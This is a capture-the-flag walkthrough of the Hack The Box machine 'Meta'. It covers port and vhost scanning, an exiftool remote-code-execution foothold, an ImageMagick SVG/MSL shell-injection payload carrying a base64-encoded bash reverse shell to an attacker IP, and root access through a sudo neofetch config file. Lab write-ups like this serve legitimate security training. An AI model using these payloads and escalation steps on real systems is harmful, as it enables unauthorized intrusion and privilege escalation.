






# Meta

## Machine Info



## Recon

### port

- nmap
  - 80 http with domain name `artcorp.htb`


```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.0 (97%), Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    open|filtered dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   closed        ntp
135/udp   closed        msrpc
137/udp   closed        netbios-ns
138/udp   open|filtered netbios-dgm
139/udp   open|filtered netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   open|filtered microsoft-ds
500/udp   open|filtered isakmp
514/udp   open|filtered syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  closed        upnp
4500/udp  closed        nat-t-ike
49152/udp open|filtered unknown
```

### subdomain

- gobuster: `dev01.artcorp.htb`

```console
└─╼$ gobuster vhost -u http://artcorp.htb/ --append-domain -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://artcorp.htb/
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev01.artcorp.htb Status: 200 [Size: 247]
Progress: 114441 / 114442 (100.00%)
===============================================================
Finished
===============================================================
```

### web







Based on the ouput, the image processing tool is `exiftool`.

## Foothold

### CVE-2021-22204 exiftool rce

Search Google for `exiftool exploit`: https://github.com/convisolabs/CVE-2021-22204-exiftool

1. upload image.jpg



2. retrieve reverse shell

```console
└─╼$ sudo rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.140] 48390
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ uname -a
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:f3:ff brd ff:ff:ff:ff:ff:ff
    inet 10.10.11.140/23 brd 10.10.11.255 scope global eth0
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> thomas

Find another directory under the site: ``dev01.artcorp.htb``, the convert_images seems a dir for converting images into different file extensions.

```console
www-data@meta:/var/www/dev01.artcorp.htb$ ls -al
total 20
drwxr-xr-x 4 root root     4096 Oct 18  2021 .
drwxr-xr-x 5 root root     4096 Aug 29  2021 ..
drwxrwxr-x 2 root www-data 4096 Jan  4  2022 convert_images
-rw-r--r-- 1 root www-data  247 Oct 18  2021 index.php
drwxr-xr-x 7 root www-data 4096 Aug 28  2021 metaview
```

Find a local tool `ImageMagick`:

```console
www-data@meta:/var/www/dev01.artcorp.htb$ which convert
/usr/local/bin/convert
www-data@meta:/var/www/dev01.artcorp.htb$ ls -l /usr/local/bin/convert
lrwxrwxrwx 1 root root 6 Aug 29  2021 /usr/local/bin/convert -> magick
www-data@meta:/var/www/dev01.artcorp.htb$ ls -l /usr/local/bin/magick
-rwxr-xr-x 1 root root 40048 Aug 29  2021 /usr/local/bin/magick
www-data@meta:/var/www/dev01.artcorp.htb$ /usr/local/bin/magick --help
Usage: magick tool [ {option} | {image} ... ] {output_image}
Usage: magick [ {option} | {image} ... ] {output_image}
       magick [ {option} | {image} ... ] -script {filename} [ {script_args} ...]
       magick -help | -version | -usage | -list {option}
www-data@meta:/var/www/dev01.artcorp.htb$ /usr/local/bin/magick --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

> ImageMagick is a powerful open-source software suite for creating, editing, compositing, or converting digital images. It can handle a variety of image formats, including popular ones like JPEG, PNG, TIFF, GIF, as well as professional formats such as DPX, EXR, WebP, Postscript, PDF, and SVG, among others.
>
> ImageMagick can be used for a wide range of image processing tasks such as resizing, rotating, cropping, color adjustments, blurring, sharpening, thresholding, etc. It also supports complex operations like image masks, transparency, text, lines, polygons, ellipses, and Bézier curves.
>
> ImageMagick includes several command-line tools, with the most famous being `convert`, which is used to convert image formats and process images. In addition, ImageMagick also offers APIs for various programming languages such as C, C++, Perl, Python, Ruby, Java, etc., allowing developers to utilize ImageMagick's features directly within their own applications.
>
> Due to its powerful features and flexibility, ImageMagick is the tool of choice for automatic image processing in many websites and systems, and it also serves as an auxiliary tool for many graphic designers and photographers.

Use pspy64 to enumerate all processes: discover a script running by UID=1000 to convert images into png extension.



```console
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -l /usr/local/bin/convert_images.sh
-rwxr-xr-x 1 root root 126 Jan  3  2022 /usr/local/bin/convert_images.sh
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ mogrify -version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5)
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Search Google about `ImageMagick exploit` and `mogrify exploit` and find a shell injection using **svg** payload:

- [InsertScript: ImageMagick - Shell injection via PDF password](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html)
- [CVE-2020-29599- Red Hat Customer Portal](https://access.redhat.com/security/cve/cve-2020-29599)
- [NVD - CVE-2020-29599 (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2020-29599)

Notes:

1. the thomas has no permissions to write files under `/var/www/dev01.artcorp.htb/convert_images`. So, the payload of poc should not write things into this dir.
2. alter payload to let base64 encoded string does not have special chars like #, =, +

**POC**:

Write this `CVE-2020-29599.svg` into dir and check the injected cmd to execute.

```console
<image authenticate='ff" `echo $(id)> /dev/shm/imqwe`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">  
  <image xlink:href="msl:CVE-2020-29599.svg" height="100" width="100"/>
  </svg>
</image>
```

```console
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ ls -l /dev/shm/imqwe
ls -l /dev/shm/imqwe
-rw-r--r-- 1 thomas thomas 54 Feb  7 01:02 /dev/shm/imqwe
www-data@meta:/var/www/dev01.artcorp.htb/convert_images$ cat /dev/shm/imqwe
cat /dev/shm/imqwe
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
```

**Exploit**:

```console
<image authenticate='ff" `echo YmFzaCAtYyAiYmFzaCAgLWkgPiYvZGV2L3RjcC8xMC4xMC4xNC4xNC8xMjM0ICAwPiYxICIK | base64 -d | sh`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">  
  <image xlink:href="msl:CVE-2020-29599.svg" height="100" width="100"/>
  </svg>
</image>

---------------------------------------------------------------------------------

└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.140] 56558
bash: cannot set terminal process group (9211): Inappropriate ioctl for device
bash: no job control in this shell
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ id
id
uid=1000(thomas) gid=1000(thomas) groups=1000(thomas)
thomas@meta:/var/www/dev01.artcorp.htb/convert_images$ uname -a
uname -a
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
```

### thomas -> root

Enumerate sudo:

- `env_keep+=XDG_CONFIG_HOME`
- `sudo /usr/bin/neofetch`
- [neofetch | GTFOBins](https://gtfobins.github.io/gtfobins/neofetch/#sudo): but the payload need option `--config $TF`

```console
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

**Exploit**: add payload into XDG_CONFIG_HOME's neofecth configuration and exeuting sudo neofetch with setted XDG_CONFIG_HOME because of env_keep.

```console
thomas@meta:~$ ls -l ~/.config/neofetch/config.conf
-rw-r--r-- 1 thomas thomas 14591 Aug 30  2021 /home/thomas/.config/neofetch/config.conf
thomas@meta:~$ echo 'exec /usr/bin/bash' >> ~/.config/neofetch/config.conf
thomas@meta:~$ XDG_CONFIG_HOME=~/.config sudo neofetch
root@meta:/home/thomas# id
uid=0(root) gid=0(root) groups=0(root)
root@meta:/home/thomas# uname -a
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64 GNU/Linux
```

## Exploit Chain

port scan -> subdomain scan -> dev0.artcorp.htb -> metaview function with tool: exiftool -> exiftool exploit cve, rce -> www-data -> pspy to discover a scheduled task with ImageMagick's tool mogrify executed by thomas -> svg shell injection -> thomas shell -> sudo enum: env_keep & neofetch -> add payload into config file -> trigger payload -> root shell

## Beyond Root

### XDG_CONFIG_HOME

`XDG_CONFIG_HOME` is a part of the XDG Base Directory Specification, which is a framework designed to standardize the location of user configuration files in UNIX-like operating systems. The specification helps to manage user settings and configuration files, keeping the home directory cleaner by reducing clutter.

#### What is `XDG_CONFIG_HOME`?

`XDG_CONFIG_HOME` defines the base directory relative to which user-specific configuration files should be stored. If `XDG_CONFIG_HOME` is either not set or empty, the default `~/.config` should be used.

#### How to Use `XDG_CONFIG_HOME`

1. **Setting `XDG_CONFIG_HOME`:**

   You can set `XDG_CONFIG_HOME` by adding a line to your shell's initialization file. For example, in `bash`, you can add the following line to `~/.bashrc`:

   ```console
   export XDG_CONFIG_HOME="$HOME/.config"
   ```

   After adding the line, you need to either restart your shell or run `source ~/.bashrc` to apply the changes.
   
2. **Application Configuration:**

   Applications that follow the XDG specification will automatically use `XDG_CONFIG_HOME` as the location for their configuration files. For example, if `neofetch` adheres to this specification, it will look for its configuration file in `$XDG_CONFIG_HOME/neofetch/config.conf`.

### sudo env_keep

In the configuration of `sudo` (typically found in the `/etc/sudoers` file or within files in the `/etc/sudoers.d` directory), `env_keep` is a directive that specifies which environment variables should be preserved when executing commands with `sudo`. By default, when you run a command with `sudo`, the system resets environment variables to provide a clean, predictable execution environment, which helps to enhance security. However, there are certain cases where you might want to retain some environment variables, and that is where `env_keep` comes into play.
